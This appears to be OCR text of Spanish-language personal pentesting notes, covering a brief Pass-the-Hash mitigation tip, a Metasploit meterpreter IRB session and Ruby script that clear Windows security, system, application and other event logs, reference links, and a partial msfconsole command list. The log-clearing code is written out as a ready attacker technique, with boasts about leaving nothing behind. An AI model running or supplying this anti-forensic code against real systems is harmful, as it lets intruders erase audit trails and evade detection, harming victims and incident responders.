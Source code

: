 Stop PasssTheHash
Secpol.msc/LocalPolicies/UserRightsAssignments/DebugPrograms       Delete Administrator/System

""""""""""""""""""""""""""""""""Limpiar Eventos a través de Consola RUBY on Metasploit"""""""""""""""""""""""""""""""""""""""
>>meterpreter>>irb
            [*]Starting IRB Shell
            [*]The 'client' variable node...
             >>log = client.sys.eventlog.open ('system')
             >>log.clear
             >> ;););););););););););););)   y no queda nada abajo de la alfombra...
             
        Tambien podemos hacer un script con esto:
        
        					# Clears Windows Event Logs
						evtlogs = [
        					'security',
        					'system',
        					'application',
        					'directory service',
        					'dns server',
        					'file replication service'
        					]
						print_line("Clearing Event Logs, this will leave an event 517")
						evtlogs.each do |evl|
        					print_status("Clearing the #{evl} Event Log")
        					log = client.sys.eventlog.open(evl)
        					log.clear
						end
						print_line("All Clear! You are a Ninja!")
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""             
             

Nota: Datos: 
-EVXT es el formato de log de eventos
-Logs Files are stored in %System32%winevt%logs
-Referencia: https://www.sans.org/reading-room/whitepapers/forensics/windows-logon-forensics-34132
             https://www.sans.org/reading-room/whitepapers/logging/evtx-windows-event-logging-32949
-Directivas de Seguridad Local En WIN : secpol.msc
-EventIDs List: http://ss64.com/ps/syntax-eventids.html
             

<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<METASPLOIT FRAMEWORK>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>


"""""""""""""""""""""""""""""""""""""""""""""msfconsole comandos básicos:""""""""""""""""""""""""""""""""""""""""""""""""""

back          Move back from the current context
banner        Display an awesome metasploit banner
cd            Change the current working directory
color         Toggle color
connect       Communicate with a host
edit          Edit the current module with $VISUAL or $EDITOR
exit          Exit the console
get           Gets the value of a context-specific variable
getg          Gets the value of a global variable
go_pro        Launch Metasploit web GUI
Grep          the output of another command
help          Help menu
info          Displays information about one or more module
irb           Drop into irb scripting mode
jobs          Displays and manages jobs
kill          Kill a job